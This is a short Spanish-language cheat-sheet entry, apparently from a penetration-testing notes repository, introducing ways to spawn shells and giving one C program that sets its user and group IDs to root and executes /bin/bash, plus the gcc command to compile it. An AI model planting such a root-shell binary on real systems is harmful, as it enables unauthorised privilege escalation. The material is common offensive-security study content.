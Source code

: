 # Introducción:
En está sección vamos a colocar todas aquellas formas o vias de realizar shells, en diferentes lenguajes y formas:

## Lenguaje C:
Generar fichero en C para despues compilarlo en un ELF.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0); //Trata de forzar que el uid sea 0, es decir el de root (requiere privilegios)
    setgid(0); //Trata de forzar que el grupo sea 0, es decir el de root (requiere privilegios)
    execl("/bin/bash", "bash", NULL); //Sustituye el PID actual y correo el fichero "/bin/bash" llamandolo "bash", sí es una ruta relativa ira a leer buscando "PATH"
    return 0;
}
```
- Compilarlo:
```
gcc file.c -o exec.elf
```

